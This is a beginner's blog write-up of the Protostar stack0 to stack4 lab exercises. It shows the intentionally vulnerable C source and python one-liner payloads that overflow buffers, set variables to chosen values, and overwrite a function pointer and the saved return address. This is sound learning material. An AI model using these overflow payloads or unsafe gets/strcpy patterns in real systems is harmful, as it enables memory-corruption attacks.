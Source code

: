 ```yaml
---
layout: post
title:  "Protostar Part One"
---
```


**Hello!** - I'm pretty new to hacking, and so far I've solved
some of the levels from the Exploit-Exercises "Nebula" series of
challenges. The Nebula challenges mainly deal with exploiting the UNIX shell &
programs that are running in it. So this is my first foray into
more advanced exploitation.

# [Stack0](https://exploit-exercises.com/protostar/stack0/)

>About
>
>This level introduces the concept that memory can be accessed
>outside of its allocated region, how the stack variables are laid
>out, and that modifying outside of the allocated memory can modify
>program execution.

Included in the first level's description is the source-code of the
program we're about to tear into.

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
{% endhighlight %}

This program reads from stdio into `buffer`. Both `buffer` and
`modified` are allocated on the stack, when we feed gets more than 64
characters, the `modified` variable changes, since `buffer`
overflowed into it.

~~~
$ python -c "print('@' * 64)" | /opt/protostar/bin/stack0
Try again?

$ python -c "print('@' * 65)" | /opt/protostar/bin/stack0
you have changed the 'modified' variable
~~~

* * *

# [Stack1](https://exploit-exercises.com/protostar/stack1/)

>##About
>
>This level looks at the concept of modifying variables to
>specific values in the program, and how the variables are laid out in
>memory.
>
> **Hints**
>
> + If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
> + Protostar is little endian


In the source-code provided, the hexadecimal value 61626364 in ASCII
encodes to "abcd". Once again, the length of `buffer` is 64. So I used the
same way of overflowing the buffer as last time.

~~~
$ /opt/protostar/bin/stack1/ `python -c "print('0'*64+'abcd'')"`
Try again, you got 0x64636261
~~~

We're close, but as the hint said, protostar is little endian - meaning that
the least significant bit is stored first. So "abcd" is stored as 64636261 in memory.

~~~
hex   ascii |
64    d     |  abcd in little endian: 0x64636261
63    c     |  abcd in big endian:    0x61626364
62    b     |  dcba in little endian: 0x61626364
61    a     |  dcba in big endian:    0x64636261
~~~

I'll just flip things around & it should work =)

~~~
$ /opt/protostar/bin/stack1/ `python -c "print('0'*64+'dcba')"`
you have correctly got the variable to the right value
~~~

Yay!

* * *

#[Stack2](https://exploit-exercises.com/protostar/stack2/)

> ##About
>
> Stack2 looks at environment variables, and how they can be set.


{% highlight c %}
// ...
variable = getenv("GREENIE");

if(variable == NULL) {
    errx(1, "please set the GREENIE environment variable\n");
}

modified = 0;
strcpy(buffer, variable);
// ...
{% endhighlight %}

This time we need to set `modified` to 0x0d0a0d0a, which in ASCII
encodes to `\n\r\n\r`.

We accomplish this by using python & stuff.

~~~
$ GREENIE=`python -c "print('0'*64+'\n\r\n\r')"` /opt/protostar/bin/stack2
you have correctly modified the variable
~~~

* * *

# [stack3](https://exploit-exercises.com/protostar/stack3/)

>About
>
>Stack3 looks at environment variables, and how they can be set,
>and overwriting function pointers stored on the stack (as a prelude
>to overwriting the saved EIP)
>
>Hints
>
>+ both gdb and objdump is your friend you determining where the win() function lies in memory.

Using objdump I was able to determine the functions address, which
means we're Gucci. Giving the `--prefix-addresses` flag gives us the
location in memory where `win` is stored.

~~~
$ objdump --disassemble --prefix-addresses /opt/protostar/bin/stack3 | grep win
08048424 <win> push %ebp
...
$ python -c "print('0'*64+'\x24\x84\x04\x08')" | /opt/protostar/bin/stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
~~~

Holy shit it actually worked =)

* * * 

# [stack4](https://exploit-exercises.com/protostar/stack4/)

>Stack4 takes a look at overwriting saved EIP and standard buffer overflows.
>
>Hints
>
>+ A variety of introductory papers into buffer overflows may help.
>+ gdb lets you do “run < input”
>+ EIP is not directly after the end of buffer, compiler padding can also increase the size.
>

{% highlight c %}
void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
{% endhighlight %}


I started out by finding out the location in memory where the
win-function is stored, much like I did in stack3.

~~~
$ objdump --disassemble --prefix-addresses /opt/protostar/bin/stack4 | grep win
080483f4 <win> push % ebp
...
~~~

Now I started to give program input (`python -c "print('a'*
SOME_NUMBER +'\xf4\x83\x04\x08')" | /opt/protostar/bin/stack4`) &
observed what happened; If the program didnt crash - I made
`SOME_NUMBER` bigger. If the program did crash, I just lowered the
amount of leading `a`s.

I started on 64, tried 70 (no crash), tried 80 (crashed), and with
76 leading `a`s I was able to execute the win-function.

~~~
$ python -c "print('a'*76 + '\xf4\x83\x04\x08')" | /opt/protostar/bin/stack4
code flow sucessfully changed
Segmentation fault
~~~

I still got a segmentation fault though, well.. whatever :D

* * *

Thanks for reading.

**Useful stuff:**

+ [GDB cheatsheet](http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf)
